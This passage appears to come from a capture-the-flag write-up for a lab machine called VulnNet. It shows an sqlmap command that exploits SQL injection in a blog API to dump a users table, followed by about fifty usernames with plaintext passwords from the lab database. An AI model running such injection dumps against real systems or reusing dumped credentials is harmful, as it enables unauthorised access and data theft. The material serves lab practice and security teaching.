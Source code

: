 <br>

```bash
sqlmap -u http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1 --batch -D blog -T users -C username,password --dump
```

```bash
Database: blog                                                                                                                                                                   
Table: users
[651 entries]
+--------------------+---------------------+
| username           | password            |
+--------------------+---------------------+
[20:29:11] [WARNING] console output will be trimmed to last 256 rows due to large table size
| lspikinsaz         | D8Gbl8mnxg          |
| profeb0            | kLLxorKfd           |
| sberrymanb1        | cdXAJAR             |
| ajefferiesb2       | 0hdeFiZBRJ          |
| hkibblewhiteb3     | 6rl6qXSJDrr         |
| dtremayneb4        | DuYMuI              |
| bflewinb5          | fwbk0Vgo            |
| kmolineuxb6        | 92Fb3vBF5k75        |
| fjosefsb7          | zzh9wheBjX          |
| tmiskellyb8        | sAGTlyBrb5r         |
| nallrightb9        | 3uUPdL              |
| hlevermoreba       | fp2LW0x             |
| celgerbb           | IKhg7D              |
| frustedbc          | Tjyu2Ch2            |
| imeneghibd         | NgKgdeKRVEK         |
| vgouninbe          | wGWMg3d             |
| cbartoschbf        | ruTxBc2n85          |
| lcordonbg          | ZydELwZFV2          |
| dappsbh            | ROfVmvZSYS          |
| zduchanbi          | B4SBGt5yAD          |
| jfraybj            | zhE95JJX9l          |
| mlanchesterbk      | nXSVHhVW9S          |
| cgylesbl           | NCeU070             |
| cbonnifacebm       | WzkvfoedkXJx        |
| btoppasbn          | ktPBpK1             |
| mdurrettbo         | 8fCXE6BF9gj         |
| skilroybp          | cSAjOy              |
| uvonderemptenbq    | HLUHZ9oQ            |
| dvinsenbr          | gTc7TiSsd2          |
| ltiltbs            | 7yQ0b1B             |
| dsimcoebt          | SXD1eC6ysa          |
| wfrailbu           | bgb084kq            |
| lmityukovbv        | NsJFz4DLpI          |
| vkellarbw          | 7JVPatN             |
| rkingstonbx        | yuTnSPEvIoJ4        |
| rbakewellby        | L3ttm8              |
| dbousteadbz        | vyae6t              |
| vstaddenc0         | iA4AD4UlcLF1        |
| rwhacketc1         | VlyIAh              |
| tnoorc2            | IpsnIEbIaT          |
| dduffync3          | UPU9rZu8q           |
| dstichelc4         | xuUXUFXoc           |
| kcleverlyc5        | yTuqouj9ZK          |
| sreinertc6         | QDneobZ1DH          |
| mcottinghamc7      | OdrnoHtrP           |
| ljansemac8         | c3KvR6              |
| acodac9            | GMbFP9              |
| rhuggardca         | zIZ11OPuj           |
| gkeechcb           | XCX2GVx             |
```